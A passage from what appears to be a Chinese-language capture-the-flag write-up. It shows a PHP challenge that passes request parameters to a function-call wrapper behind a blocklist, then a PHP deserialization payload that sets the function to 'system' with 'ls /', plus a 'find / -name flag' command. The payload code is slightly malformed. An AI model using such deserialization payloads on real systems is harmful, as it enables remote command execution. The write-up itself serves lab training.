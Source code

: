 ```php
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```
    这里就可以用反序列化了

```php

    <?php
  class Test{
     var p="ls /";
     var func="system";
     }
     <?php
$a=new Test();
echo serialize($a);
?>
```
![alt text](image-37.png)
没有flag
system(“find / -name flag”)：查找所有文件名匹配flag的文件